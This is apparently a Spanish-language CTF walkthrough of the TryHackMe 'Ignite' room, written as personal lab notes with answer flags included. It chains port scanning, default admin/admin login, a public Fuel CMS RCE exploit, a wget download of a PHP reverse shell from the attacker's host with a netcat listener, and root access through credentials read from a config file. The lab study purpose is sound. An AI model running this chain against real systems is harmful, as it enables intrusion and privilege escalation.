 # Objetivo

https://tryhackme.com/r/room/ignite

IP: 10.10.172.69

- User.txt: 6470e394cbf6dab6a91682cc8585059b
- Root.txt: b9bbcb33e11b80be759c4e844862482d

---

# Procesos

- ## Escanear puertos

  ```
  sudo nmap -sV <SERVICE_VERSION> -O <OS> -T4 <INTENSIDAD> <IP>
  ```

  ```
  sudo nmap -sV -O -T4 10.10.56.241
  ```

  - `-sV`: 80/tcp open http Apache httpd 2.4.18 ((Ubuntu))

  - `-O`: No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

  - `-T4`: En un rango de 1 a 5 lo agresivo (ruidoso) que quieres que sea el escaneo

- ## Fuzzear

  ```
  feroxbuster -u <URL> -t <THREADS> -L <SCAN_LIMIT> -n <NO_RECURSION> -w <WORD_LIST> -o <OUTPUT>
  ```

  ```
  feroxbuster -u http://10.10.172.69:80 -t 5 -L 5 -n -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o outputIgnite.txt
  ```

- ## Revisar pagina web

  - ### `Robot.txt`:

    ```
    User-agent: *
    Disallow: /fuel/
    ```

  - ### `/fuel` (Login page):

    user: admin
    password: admin

- ## Buscar vunerabilidades:

  ```
  searchsploit <SERVICE>
  ```

  ```
  searchsploit fuel

  > ------------------------------- ---------------------------------
   Exploit Title                   |  Path
  --------------------------------- ---------------------------------
  AMD Fuel Service - 'Fuel.service | windows/local/49535.txt
  Franklin Fueling Systems  TS-550 | hardware/remote/51321.txt
  Franklin Fueling Systems Colibri | linux/remote/50861.txt
  Franklin Fueling Systems TS-550  | hardware/remote/51382.txt
  Franklin Fueling TS-550 evo 2.0. | hardware/webapps/31180.txt
  fuel CMS 1.4.1 - Remote Code Exe | linux/webapps/47138.py
  Fuel CMS 1.4.1 - Remote Code Exe | php/webapps/49487.rb
  Fuel CMS 1.4.1 - Remote Code Exe | php/webapps/50477.py
  Fuel CMS 1.4.13 - 'col' Blind SQ | php/webapps/50523.txt
  Fuel CMS 1.4.7 - 'col' SQL Injec | php/webapps/48741.txt
  Fuel CMS 1.4.8 - 'fuel_replace_i | php/webapps/48778.txt
  Fuel CMS 1.5.0 - Cross-Site Requ | php/webapps/50884.txt
  --------------------------------- ---------------------------------
  Shellcodes: No Results
  ```

  - ### Explotar vulnerabilidad:

  1.  Descargar exploit y acceder a la shell

      https://www.exploit-db.com/exploits/50477

      ```
      python3 50477.py -u http://10.10.172.69
      ```

  2.  Una vez accedido a la shell:

      ```
      cat /home/www-data/flag.txt

      > 6470e394cbf6dab6a91682cc8585059b
      ```

  3.  Mejorar la shell (Reverse shell):

      1. Descargar y descomprimir:

         ```
         wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

         tar -xvzf php-reverse-shell-1.0.tar.gz
         ```

      2. Levantar web server en el directorio de la reverse shell para pasarla a la maquina objetivo:

         ```
         python3 -m http.server 80
         ```

      3. Conectarme al servidor desde la maquina objetivo:

         ```
         wget http://10.21.104.33/shell.php
         ```

      4. Mejorar shell:

         ```
         python -c 'import pty; pty.spawn("/bin/bash")'
         ```

      5. Escuchar desde mi maquina con netcat:

         ```
         netcat -nvlp 8085
         ```

      6. Cargar la sell en el navegador: http://10.10.172.69/shell.php

  4.  Hacernos root:

      1. Buscar archivo de configuracion:

         ```
         cd /var/www/html/fuel/application/config
         ```

      2. Conseguir credenciales root e identidicarnos como root:

         ```
         cat database.php

         > user: root
         password: mememe
         ```

         ```
         su root
         ```

      3. Acceder al directorio root (previamente oculto) y conseguir la flag:

         ```
         cd /
         cd root
         ```

         ```
         cat root.txt

         > b9bbcb33e11b80be759c4e844862482d
         ```

